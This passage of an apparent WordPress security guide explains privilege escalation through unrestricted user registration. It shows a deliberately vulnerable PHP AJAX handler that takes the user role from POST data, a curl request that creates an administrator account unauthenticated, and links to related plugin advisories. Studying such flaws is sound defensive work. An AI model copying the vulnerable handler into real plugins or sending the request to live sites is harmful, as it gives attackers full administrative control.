 Below are some of the findings related to Arbitrary User Meta Update:

- [Thrive Theme Vulnerability: Dismiss Tooltip to Privilege Escalation](https://patchstack.com/articles/thrive-theme-dismiss-tooltip-to-privilege-escalation/#authenticated-privilege-escalation)

## Unrestricted User Registration

Many plugins or themes implement a custom user registration process. This case is mostly found in a page builder plugin as one of the shortcode or block features. 

One of the ways to register a user is through a [`wp_insert_user`](https://developer.wordpress.org/reference/functions/wp_insert_user/) function. This function accepts the `$userdata` parameter which is an array, object, or `WP_User` object of user data arguments. One of the values inside of the parameter is `role` which determines the role of the inserted user. Another value would be `meta_input` which can be filled with custom user metadata which can also result in a privilege escalation.

Example of vulnerable code:

```php
add_action("wp_ajax_nopriv_open_registration", "open_registration");

function open_registration(){
    $user_data = array(
        'user_login'    => !empty( $_POST['reg_name'] ) ? $_POST['reg_name']: "",
        'user_pass'     => !empty( $_POST['reg_password'] ) ? $_POST['reg_password']: "",
        'user_email'    => !empty( $_POST['reg_email'] ) ? $_POST['reg_email']: "",
        'user_url'      => !empty( $_POST['reg_website'] ) ? $_POST['reg_website']: "",
        'first_name'    => !empty( $_POST['reg_fname'] ) ? $_POST['reg_fname']: "",
        'last_name'     => !empty( $_POST['reg_lname'] ) ? $_POST['reg_lname']: "",
        'nickname'      => !empty( $_POST['reg_nickname'] ) ? $_POST['reg_nickname']: "",
        'description' => !empty( $_POST['reg_bio'] ) ? $_POST['reg_bio']  : "",
        'role'        => !empty( $_POST['reg_role'] ) ? $_POST['reg_role']: get_option( 'default_role' ),
    );    

    $register_user = wp_insert_user( $user_data );
    echo "user registration complete";
}
```

To exploit this, any unauthenticated user just needs to perform a POST request to the `admin-ajax.php` endpoint specifying the needed action and parameter to trigger the `wp_insert_user` function.

```bash
curl <WORDPRESS_BASE_URL>/wp-admin/admin-ajax.php?action=open_registration -d "reg_name=pwned&reg_password=pwned123&reg_email=pwned@mail.com&reg_fname=pwned&reg_lname=pwned&reg_role=administrator"
``` 

Below are some of the findings related to Unrestricted User Registration:

- [Vulnerability In Houzez Theme Exploited in The Wild](https://patchstack.com/articles/psa-houzez-theme-unauthenticated-privilege-escalation-vulnerability-exploited-in-the-wild/)
- [Multiple Vulnerabilities Patched in Themify Ultra Theme](https://patchstack.com/articles/multiple-vulnerabilities-patched-in-themify-ultra-theme/#authenticated-privilege-escalation)
- [Two Paths to Privilege Escalation Vulnerability In The Simple Membership Plugin](https://patchstack.com/articles/two-path-to-privilege-escalation-bugs-found-in-the-simple-membership-plugin/#unauthenticated-membership-role-privilege-escalation)
- [Authenticated Privilege Escalation Vulnerability in Essential Addons for Elementor](https://patchstack.com/articles/authenticated-privilege-escalation-in-essential-addons-for-elementor-plugin/)
- [Critical Privilege Escalation in HT Mega Plugin Affecting 100k+ Sites](https://patchstack.com/articles/critical-privilege-escalation-in-ht-mega-plugin-affecting-100k-sites/)
- [Critical Privilege Escalation in Essential Addons for Elementor](https://patchstack.com/articles/critical-privilege-escalation-in-essential-addons-for-elementor-plugin-affecting-1-million-sites/)
